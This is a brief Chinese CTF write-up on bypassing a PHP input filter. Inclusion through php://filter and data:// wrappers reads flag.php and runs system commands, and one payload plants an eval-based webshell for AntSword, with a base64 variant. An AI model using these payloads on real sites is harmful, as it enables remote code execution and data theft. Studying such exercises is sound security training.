 得到flag

妈的，开错实例了

分析

![image-20231216114337304](照片/image-20231216114337304.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(
```

构建命令,利用文件包含include可以不用括号,分号用?>代替

```
?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

```

介绍一下伪协议吧

```
适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```
